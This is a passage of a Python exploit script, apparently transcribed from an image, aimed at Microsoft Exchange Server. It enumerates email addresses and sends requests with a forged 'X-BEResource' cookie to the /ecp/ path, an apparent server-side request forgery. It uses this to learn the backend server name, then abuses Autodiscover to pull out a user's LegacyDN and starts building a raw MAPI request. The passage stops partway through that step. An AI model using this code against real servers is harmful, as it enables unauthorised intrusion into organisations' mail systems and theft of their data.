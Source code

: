 ```python
    parser.add_argument('-u', type=str,
                        help='target')
    parser.add_argument('-user',
                        help='exist email', default='')
    parser.add_argument('-suffix',
                        help='email suffix')
    args = parser.parse_args()
    target = args.u
    suffix = args.suffix
    if suffix == "":
        print("请输入suffix")

    exist_email = args.user
    if exist_email:
        fuzz_email.insert(0, exist_email)
    random_name = id_generator(4) + ".js"
    print("目标 Exchange Server: " + target)

    for i in fuzz_email:
        new_email = i+suffix
        autoDiscoverBody = """<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
    <Request>
      <EMailAddress>%s</EMailAddress> <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
    </Request>
</Autodiscover>
""" % new_email
        # print("get FQDN")
        FQDN = "EXCHANGE01"
        ct = requests.get("https://%s/ecp/%s" % (target, random_name), headers={"Cookie": "X-BEResource=localhost~1942062522",
                                                                            "User-Agent": user_agent},
                      verify=False, proxies=proxies)

        if "X-CalculatedBETarget" in ct.headers and "X-FEServer" in ct.headers:
            FQDN = ct.headers["X-FEServer"]
            print("got FQDN:" + FQDN)

        ct = requests.post("https://%s/ecp/%s" % (target, random_name), headers={
            "Cookie": "X-BEResource=%s/autodiscover/autodiscover.xml?a=~1942062522;" % FQDN,
            "Content-Type": "text/xml",
            "User-Agent": user_agent},
            data=autoDiscoverBody,
            proxies=proxies,
            verify=False
        )

        if ct.status_code != 200:
            print(ct.status_code)
            print("Autodiscover Error!")

        if "<LegacyDN>" not in str(ct.content):
            print("Can not get LegacyDN!")
        try:
            legacyDn = str(ct.content).split("<LegacyDN>")[
                1].split(r"</LegacyDN>")[0]
            print("Got DN: " + legacyDn)

            mapi_body = legacyDn + \
                "\x00\x00\x00\x00\x00\xe4\x04\x00\x00\x09\x04\x00\x00\x09\x04\x00\x00\x00\x00\x00\x00"
```